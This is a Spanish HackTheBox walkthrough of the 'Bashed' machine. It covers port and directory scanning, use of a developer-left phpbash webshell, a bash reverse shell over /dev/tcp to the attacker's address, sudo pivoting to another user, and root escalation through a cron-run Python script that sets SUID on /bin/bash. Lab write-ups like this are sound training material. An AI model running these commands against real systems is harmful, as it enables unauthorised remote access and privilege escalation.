

HackTheBox
Easy
Linux
WebShell
Sudo Abuse
Cron
Python
Bashed
phpbash webshell pre-instalado expone RCE; sudo -u scriptmanager permite escalar via script Python ejecutado por cron.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
netcat
Scanning
root@kali:~$
nmap -sC -sV -Pn -n -p80 10.10.10.68 -oN targeted
wfuzz -c --hc 404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.68/Explotacion - phpbash WebShell
Encontramos http://10.10.10.68/dev/phpbash.php, una webshell PHP pre-instalada por el desarrollador.
Lanzamos una reverse shell desde la webshell:
root@kali:~$
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" > shell.sh
sudo python3 -m http.server 80Comprobamos permisos sudo:
root@kali:~$
sudo -l
# Podemos ejecutar como scriptmanager
sudo -u scriptmanager bash
cat /home/arrexel/user.txtEscalada de Privilegios - Cron + Python
root@kali:~$
find / -type f -user scriptmanager 2>/dev/nullEncontramos /scripts/test.py ejecutado como root por cron. Lo modificamos:
import os
os.system("chmod 4755 /bin/bash")root@kali:~$
ls -l
bash -p
cat /root/root.txt
Lecciones aprendidas
- Las webshells dejadas por el desarrollador en produccion son puertas de entrada directas.
- sudo -u permite pivotar a usuarios sin conocer su contrasena.
- Los scripts Python ejecutados por cron como root son vectores clasicos de escalada si son escribibles.